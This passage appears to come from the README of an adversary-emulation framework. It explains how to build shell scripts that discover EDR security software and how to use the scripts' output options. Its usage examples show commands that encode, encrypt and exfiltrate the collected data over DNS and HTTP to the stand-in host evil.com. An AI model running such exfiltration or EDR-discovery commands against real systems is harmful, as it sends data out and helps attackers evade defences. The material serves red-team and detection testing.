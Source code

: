 ### Local Development (Alternative)

For local testing and development:

1. **Create YAML**: Follow the structure above
2. **Validate**: `python3 build_procedure.py --validate your_procedure.yml`
3. **Build**: `python3 build_procedure.py your_procedure.yml`
4. **Test**: Run the generated script with various options
5. **Verify JSON**: Test with `--format json` to ensure proper integration

## Built-in Output Handling

Your completed script includes built-in functions for advanced output handling. The framework automatically captures your function output and routes it through these capabilities:

- **Output formatting**: `--format json`, `--format csv` for structured data
- **Encoding**: `--encode base64`, `--encode hex` for data obfuscation
- **Encryption**: `--encrypt aes`, `--encrypt gpg` for data protection  
- **Exfiltration**: `--exfil-dns domain.com`, `--exfil-http url` for data extraction
- **Logging**: `--log` for automatic file logging with rotation

Simply use `printf` in your functions to output data - the framework handles the rest, enabling sophisticated adversary techniques without additional coding.

<details>
<summary>Script Usage Examples</summary>

**Basic Discovery:**
```bash
# Run basic EDR process discovery
./1518_edr_discovery.sh --edr-processes

# Output JSON format
./1518_edr_discovery.sh --edr-processes --format json

# Run all discovery functions
./1518_edr_discovery.sh --edr-processes --edr-files
```

**Advanced Output Handling:**
```bash
# Encode output with base64
./1518_edr_discovery.sh --edr-processes --encode base64

# Encrypt output with AES
./1518_edr_discovery.sh --edr-processes --encrypt aes

# Exfiltrate via DNS
./1518_edr_discovery.sh --edr-processes --exfil-dns evil.com

# Exfiltrate via HTTP with JSON formatting
./1518_edr_discovery.sh --edr-processes --format json --exfil-http http://evil.com/collect

# Combine encoding, encryption, and exfiltration
./1518_edr_discovery.sh --edr-processes --encode base64 --encrypt aes --exfil-dns evil.com
```
